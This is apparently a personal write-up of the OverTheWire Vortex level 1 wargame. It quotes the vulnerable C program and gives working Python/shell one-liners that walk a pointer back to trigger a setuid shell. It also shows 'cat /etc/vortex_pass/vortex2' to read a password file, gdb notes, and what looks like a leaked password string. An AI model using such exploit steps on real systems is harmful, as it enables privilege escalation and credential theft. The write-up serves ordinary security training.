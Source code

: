 Challenge URL is <a href="http://www.overthewire.org/wargames/vortex/vortex1.shtml">HERE</a>

<<<CHALLENGE_CONTENT
Level 1

Canary Values
We are looking for a specific value in ptr. You may need to consider how bash handles EOF..
Reading Material
Smashing the Stack for Fun and Profit
Code listing (vortex1.c)

	 1 #include <stdlib.h>
	 2 #include <unistd.h>
	 3 #include <string.h>
	 4 #include <stdio.h>
	 5 
	 6 
	 7 #define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
	 8 
	 9 void print(unsigned char *buf, int len)
	10 {
	11         int i;
	12 
	13         printf("[ ");
	14         for(i=0; i < len; i++) printf("%x ", buf[i]); 
	15         printf(" ]\n");
	16 }
	17 
	18 int main()
	19 {
	20         unsigned char buf[512];
	21         unsigned char *ptr = buf + (sizeof(buf)/2);
	22         unsigned int x;
	23 
	24         while((x = getchar()) != EOF) {
	25                 switch(x) {
	26                         case '\n': print(buf, sizeof(buf)); continue; break;
	27                         case '\\': ptr--; break; 
	28                         default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
	29                 }
	30         }
	31         printf("All done\n");
	32 }

CHALLENGE_CONTENT

Comment by me:

ESP --> 0xffffd520
ptr = 0x18(ESP) = 0xffffd538 --> 0xffffd63c
buffer = 0x1c(ESP) = 0xffffd53c

1. we can only write where ptr is pointing at (initially at 0xffffd63c)
2. ptr is located at $ESP+0x18 (from gdb), 
	ESP initially is at 0xffffd520
	ESP+0x18 = ESP+24 = 0xffffd538
3. So, we have to move the writing pointer to write at $ESP+0x18 located.
4. To move the writing pointer, from the program:
	type '\' : ptr--
	type other: ptr++
5. Therefore, moving the writing pointer back (0xffffd63c - 0xffffd538) = 260 
	Which means, type '\' * 260 times, then type '\xCA'
6. But when comparison, the program only check 'ptr' against 0xCA000000, which is the last byte of the 'ptr' pointer, so we only need to type '\' * 257 times then type '\xCA'. Let the '\xCA' saved, then put another character of anything to trigger the e() method again.
7. we can input into the program in another 2 ways(rather than type it in). We can use PIPE or REDIRECT, for example:
	using PIPE method : python -c 'print "\\"*257 +"\xCA"+"a"' | /vortex/vortex1
	or
	using REDIRECT method, by write to a file first, then redirect : 
		python -c 'print "\\"*257 +"\xCA"+"a"' > /tmp/anidear_vt1;
		/vortex/vortex1 < /tmp/anidear_vt1
8. Then comes the problem of EOF, either of the method will result in sending EOF(end-of-file) to the new spawn process(/bin/sh), which results in closing the shell.
9. by using 'cat' command to re-open the STDIN (for us to type in commands), after finish sending the exploit. So, we can:
	with PIPE method : 
		(python -c 'print "\\"*257 +"\xCA"+"a"'; cat) | /vortex/vortex1
	or
	with file method :
		(cat /tmp/anidear_vt1; cat) | /vortex/vortex1
		or
		(cat /tmp/anidear_vt1 - ) | /vortex/vortex1

10. After getting a shell, just 'cat /etc/vortex_pass/vortex2'. The password for next level is there.


OTHER WORK:
	- to compile code: gcc -o vortex1 -m32 -fno-stack-protector -Wl,-z,norelro vortex1.c

	- DEBUGGING
		- gdb /vortex/vortex1  		<<< To debug the process
		- disas						<<< (disassemble) show diassembly code of the process
		- b *0x080485b7				<<< (breakpoint) set breakpoint at 0x080485b7 (after mov    0x18(%esp),%eax) to read value in $eax, which is now the value of 'ptr'
		- r 						<<< (run) to run the process from start
		- r < /tmp/anidear_vt1		<<< (run) to run the process with arguments
		- x/x $eax					<<< view value in $eax
		- set $eax=0xca000000 		<<< set value in $eax to 0xCA000000
		- n 						<<< (next) run until exit the function
		- ni 						<<< (next instruction), step over
		- delete breakpoints		<<< delete all breakpoints
		- set inferior-tty /dev/pts/1 <<< enable STDIN for the child process
		- c 						<<< continue executions, runs
		- s   or   si				<<< (step) run next instruction, step into
		- start 					<<< just start the process, but not run

	- SOME ASSEMBLY
		0x080485b3 <+92>:	mov    0x18(%esp),%eax	<<<<<< where it reads from 'ptr'
		0x080485b7 <+96>:	and    $0xff000000,%eax
		0x080485bc <+101>:	cmp    $0xca000000,%eax		<<<<<< change to eax to 0xca000000
		0x080485c1 <+106>:	jne    0x8048602 <main+171> 	
		0x080485c3 <+108>:	call   0x8048440 <geteuid@plt>
		0x080485c8 <+113>:	mov    %eax,%esi
		0x080485ca <+115>:	call   0x8048440 <geteuid@plt>
		0x080485cf <+120>:	mov    %eax,%ebx
		0x080485d1 <+122>:	call   0x8048440 <geteuid@plt>


	- Conclusion with gdb debugging
		- easy to navigate and override the process flow. I can set any register to be anything as I want. 
		- the flaw is, when 'gdb' starts, it starts with our EUID (which is vortex1). When it spawn /vortex/vortex1 afterward, the process also has EUID=vortex1, which leads to /bin/sh to get the same EUID as vortex1 too.

	23anbT\rE
